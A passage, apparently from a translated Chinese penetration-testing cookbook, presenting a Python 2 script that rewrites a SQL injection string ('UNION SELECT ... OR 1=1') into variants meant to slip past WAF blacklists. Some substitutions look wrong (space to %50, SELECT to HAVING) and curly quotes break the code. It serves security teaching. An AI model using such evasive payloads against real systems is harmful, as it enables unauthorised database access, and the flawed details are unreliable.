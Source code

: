 ```py
```

# 编码有效载荷

停止 SQL 注入的一种方法是通过服务器端文本操作或**Web App 防火墙**（**WAFs**进行过滤。这些系统针对通常与攻击相关的特定短语，如`SELECT`、`AND`、`OR`和空格。通过用不太明显的值替换这些值，可以很容易地避免这些问题，从而在总体上突出黑名单问题。

我们将创建一个脚本，该脚本接受攻击字符串，查找可能转义的字符串，并提供替代攻击字符串。

## 怎么做…

以下是我们的脚本：

```py
subs = []
values = {“ “: “%50”, “SELECT”: “HAVING”, “AND”: “&&”, “OR”: “||”}
originalstring = “' UNION SELECT * FROM Users WHERE username = 'admin' OR 1=1 AND username = 'admin';#”
secondoriginalstring = originalstring
for key, value in values.iteritems():
  if key in originalstring:
    newstring = originalstring.replace(key, value)
    subs.append(newstring)
  if key in secondoriginalstring:
    secondoriginalstring = secondoriginalstring.replace(key, value)
    subs.append(secondoriginalstring)

subset = set(subs)
for line in subs:
  print line
```

以下屏幕截图是使用此脚本时生成的输出示例：

![How to do it…](img/B04044_04_03.jpg)

## 它是如何工作的…
